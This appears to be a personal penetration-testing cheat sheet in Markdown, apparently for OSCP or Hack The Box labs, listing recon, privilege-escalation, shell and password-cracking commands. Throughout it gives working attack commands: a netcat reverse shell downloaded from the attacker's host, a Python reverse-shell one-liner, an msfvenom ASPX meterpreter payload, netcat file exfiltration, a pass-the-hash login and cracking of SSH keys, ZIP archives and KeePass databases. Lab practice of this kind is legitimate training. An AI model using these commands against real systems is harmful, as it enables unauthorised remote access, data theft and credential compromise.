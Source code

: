 # RECON
## Initial Nmap Scan
```bash
ip="10.10.10.5"
nmap -Pn -sC -sV -oA nmap $ip
```

## Enumeration Checklists
https://github.com/theonlykernel/enumeration/wiki  
https://medium.com/oscp-cheatsheet/oscp-cheatsheet-6c80b9fa8d7e  

## WPscan for wordpress
```bash
wpscan --disable-tls-checks --url $url
```

## Samba
```bash
auxiliary/scanner/smb/smb_version
nmblookup -A $ip
smbclient -L $ip
```

## dirbuster
wordlist: /usr/share/wordlists/dirb/common.txt  
URL to fuzz (find file in unknown folder)  
/{dir}/phpbash.min.php  

## Gobuster HTTP Enumeration
```bash
./gobuster dir -u $url -w /usr/share/wordlists/dirb/common.txt
```
## FTP
```bash
nmap -sV -Pn -vv -p 21 --script=ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221 $ip
```


# GENERAL
## Kali Configuration
```bash
## set keyboard layout
setxkbmap -layout de
# set timezone
sudo dpkg-reconfigure tzdata
```

## Find without errors
```bash
find / -name test.py 2>/dev/null
```

## Save all Terminal Output to File
https://unix.stackexchange.com/questions/200637/save-all-the-terminal-output-to-a-file
```bash
# Convert RAW Output to TXT
cat $SCRIPT_LOG_FILE | perl -pe 's/\e([^\[\]]|\[.*?[a-zA-Z]|\].*?\a)//g' | col -b > $txtfile
```

## NTFS Alternate Datastream
```bash
# show alternate datastreams
dir /R

# output alternate datastreams
powershell Get-Content -Path "hm.txt" -Stream "root.txt"
```
# PRIVESC
## LinEnum.sh
https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

## GTFOBIns
https://gtfobins.github.io/ 

## journalctl
```bash
# size termain windows very small
usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
!/bin/sh
# whoami
root
```

## Pass-the-Hash spawn CMD
```bash
pth-winexe -U$domain/$username%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 //$ip cmd
```

# GET SHELL
## Netcat Windows
```bash
powershell wget "http://[KALI-IP]/windows-resources/binaries/nc.exe" -outfile nc.exe
nc.exe -e cmd.exe [KALI-IP] 1234

#on Kali listen with
nc -nvlp 1234
```

## Transfer Files
```bash
# listen on kali with
nc -lp 1235 > [FILENAME]

# transfer file on victim
nc.exe -w 3 [KALI-IP] 1235 <[FILENAME]
```

## Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.29",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' 
```
```bash
# make shell better
python -c 'import pty; pty.spawn("/bin/bash");' 
#on Kali listen with
nc -nvlp 1234
```
## ASPX Reverse Shell (Webserver)
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$lab_ip LPORT=1234 -f aspx > devel.aspx
```
# Password Cracking
## John
```bash
john --wordlist=/home/mallab/Downloads/rockyou.txt htpasswd.txt 
```

## SSH Private Key / id_rsa
```bash
python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
sudo john --wordlist=rockyou.txt id_rsa.hash
```

## ZIP Archive
```bash
/usr/sbin/zip2john avedb.zip > avedb.zip.hashes
sudo john --wordlist=rockyou.txt avedb.zip.hashes
```

## KDBX Keepassa
```bash
sudo keepass2john jeeves.kdbx > jeeves.hash
```
